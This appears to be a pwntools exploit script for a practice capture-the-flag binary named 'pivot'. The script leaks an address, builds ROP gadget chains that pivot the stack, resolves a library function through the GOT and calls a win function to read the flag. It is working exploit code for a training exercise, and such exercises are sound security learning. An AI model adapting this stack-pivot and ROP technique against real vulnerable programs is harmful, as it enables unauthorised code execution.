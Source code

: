 ```python
#!/usr/bin/python3
from pwn import *

# CONSTANTS
binary = "./pivot"
p = process(binary)
e = ELF(binary)
offset = b'A'*32
RBP = b'B'*8
ret2win_offset = p64(0x117)
p.recvuntil("pivot: ")
gods_addr = p.recvline()[2:-1]
gods_addr = int(gods_addr, 16)
foothold_got = hex(e.got["foothold_function"])
foothold_plt = hex(e.plt["foothold_function"])

# DEBUG
#script = "b* {}".format(0x4009bb)
#gdb.attach(p, gdbscript = script)

# GADGETS
rop1 = ROP(p.elf)
rop2 = ROP(p.elf)
pop_rax = p64(0x4009bb)     # pop RAX ; ret
xchg = p64(0x4009bd)        # xchg RAX, RSP ; ret
mov_rax_mrax = p64(0x4009c0)    # mov RAX, [RAX] ; ret
pop_rbp = p64(0x4007c8)         # pop RBP ; ret
add_rax_rbp = p64(0x4009c4)     # add RAX, RBP ; ret
call_rax = p64(0x4006b0)        # call RAX

# CHAIN 1
rop1.raw(p64(int(foothold_plt, 16)))
rop1.raw(pop_rax)
rop1.raw(p64(int(foothold_got, 16)))
rop1.raw(mov_rax_mrax)
rop1.raw(pop_rbp)
rop1.raw(ret2win_offset)
rop1.raw(add_rax_rbp)
rop1.raw(call_rax)

# CHAIN 2
rop2.raw(pop_rax)
rop2.raw(p64(gods_addr))
rop2.raw(xchg)

# PWN
print()
log.info("Old Gods address => {}".format(hex(gods_addr)))
log.info("foothold@got     => {}".format(foothold_got))
log.info("foothold@plt     => {}".format(foothold_plt))
print()

print(p.recvuntil("> ").decode("utf-8"))
p.sendline(rop1.chain())

print(p.recvuntil("> ").decode("utf-8"))
p.sendline(offset + RBP + rop2.chain())

print(p.recvuntil("libpivot\n").decode("utf-8"))
log.success('flag: {}'.format(p.recvline().decode("utf-8")))
p.close()
```

---